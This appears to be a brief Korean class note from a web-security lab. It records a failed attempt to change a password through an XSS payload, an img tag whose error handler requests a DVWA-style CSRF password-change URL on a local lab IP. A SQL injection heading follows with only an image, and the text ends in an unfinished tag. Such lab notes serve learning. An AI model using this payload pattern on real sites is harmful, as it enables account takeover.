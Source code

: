 오늘의 수업
-

#### 비밀번호를 XXS를 사용해서 바꾸기 실습
    실행이 직접적으로 보지는 못하여 실패 
    그냥 
                        
      <img+src="https://ugc.production.linktr.ee/jl9DQQM1QxiPQklpiKii_GjzZ0fFXW61vAGZx"+oneerror='this.src="http://192.168.126.128:9980/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change"'/>
    
    이러한 코드를 사용한다 정도만 알려둬야 함.

#### sql를 주입하다의 주제

![image](https://github.com/user-attachments/assets/558caa3b-4c54-45ab-a867-7cd0caf61573)


<details>
<sm
    
</details>
